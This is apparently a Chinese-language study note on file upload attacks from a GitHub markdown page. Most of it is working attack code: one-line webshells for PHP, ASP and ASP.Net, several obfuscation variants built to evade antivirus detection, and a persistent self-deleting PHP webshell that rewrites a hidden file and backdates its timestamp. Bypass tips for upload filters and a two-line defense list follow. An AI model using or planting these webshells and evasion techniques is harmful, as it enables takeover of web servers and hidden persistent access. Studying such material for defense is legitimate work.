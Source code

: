 # 文件上传攻击

## 概述

文件上传是一个非常常见的功能，但如果服务器端不对客户端上传的文件进行严格的验证和过滤，就容易造成可以上传任意文件的情况，包括脚本文件

## 一句话木马

本质是一个只有一句话的脚本、网页或可执行程序，通过执行该脚本文件，攻击者可以控制整个网站甚至是服务器，也被称为一种网页后门

- 需要能成功上传到服务器上
- 需要知道木马上传到服务器后的路径
- 上传的木马能够被解析执行

| 常见脚本类型 | 代码                                                         |
| ------------ | ------------------------------------------------------------ |
| PHP          | `<?php @eval($_REQUEST["xxx"]); ?>`                          |
| ASP          | `<%eval request("xxx") %>`                                   |
| ASP.Net      | `<%@ Page Language="Jscript"%> <%eval(Request.Item["xxx"], "unsafe");%>` |

### 免杀方法

#### 隐藏关键字

- 绕过php代码标识<?的限制 - `<script language="php">@eval($_REQUEST['xxx'])</script>`

- 拆分拼接

  ```php
  <?php
  	$arr = explode(",", "a,s,d,f,s,d,e,k,r,t");
  	$payload = $arr[0] . $arr[1] . $arr[4] . $arr[6] . $arr[8] . $arr[9];  // 拼接成assert
  	// php版本要求: <=7.1
  	@$payload($_REQUEST['xxx']);  // 此处不支持eval，因为eval是PHP的关键字，不能使用变量函数
  ?>
  ```

- 编码

  ```php
  <?php
  	$a = base64_decode("YXNzZXJ0");  // 解assert的base64编码
  	@$a($_REQUEST['xxx']);  // 同样不支持eval
  ?>
  ```

- 可变函数

  ```php
  <?php
  	@$_REQUEST['e']($_REQUEST['xxx']);  // 传入e=assert&xxx=command	
  ?>
  ```

- 可变变量

  ```php
  <?php
  	$a = "assert";
  	$b = "a";
  	$$b($_REQUEST['xxx']);  // 转换成assert['xxx'];
  ?>
  ```

#### 使用回调函数

回调函数 - 将函数名和对应的参数传入回调函数中，PHP会自动调用传入的函数，可以使用任何的内置函数

- `call_user_func($_REQUEST['func'], $REQUEST['param']);`

### 常见PHP函数

- echo - 返回结果的最后一行，搭配其他函数使用
- 执行函数
  - eval() - 执行PHP代码函数，不支持变量函数
  - assert() - 执行PHP代码函数，PHP 7.1之后不支持
  - system() - 执行系统命令并显示输出
  - passthru() - 执行系统命令并显示原始输出
  - exec() - 执行系统命令，但不输出结果，echo返回结果的最后一行
  - shell_exec() - 通过shell环境秩序命令，需要echo
- 文件操作
  - file_get_contents() - 读入文件内容作为字符串
  - file() - 将整个文件读入一个数组中
  - readfile() - 读取一个文件，并写入到输出缓冲中
- 遍历目录
  - scandir() - 返回一个指定目录中的文件和目录的数组
- 包含函数
  - require()和include()
- 特殊函数
  - phpinfo() - 查看PHP信息
  - parse_str() - 变量覆盖

### 不死马

即内存马，无文件，但程序会永久的运行在PHP进程中，无限执行

通过执行多个函数来使自身成为不死马

1. ignore_user_abort(true) - 设置客户机断开后继续运行脚本
2. set_time_limit(0) - 设置脚本最大执行时间，设置0表示没有限制
3. `unlink(__FILE__)` - 将文件本身删除，用于隐藏自身
4. usleep() - 延迟执行当前脚本若干微秒

```php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = "./.index.php";
$code = "<?php @eval($_POST[\"cmd\"]) \n?>";
while(1) {
    file_put_contents($file, $code);  // 在死循环中不断将代码写入文件中
    system("touch -m -d \"2018-12-01 09:10:12\" .index.php");  // 设置文件最后修改时间，防止被检测
    usleep(5000);
}
```

## 攻击方法

### 低安全

不进行任何检测

### 中安全

只在前端进行检测，使用JS可以对文件的扩展名进行检测，Content-Type也可以进行判断文件类型，

但通过BurpSuite拦截并对请求进行修改，可以继续上传

### 高安全

在中安全的基础上，在后端也进行检测

- 尝试使用图片木马搭配文件包含漏洞一起执行
- 配合Web服务器的后缀解析漏洞来绕过检测
  - Apache服务器是从右向左解析文件后缀的，如果最右侧的后缀不可识别，就继续向左判断，直到遇到可解析的后缀为止

### 最终安全

在高安全的基础上，部署WAF以及经常对代码进行审计

## 防御手段

- 使用白名单的方式判断文件后缀是否合法
- 对上传后的文件进行重命名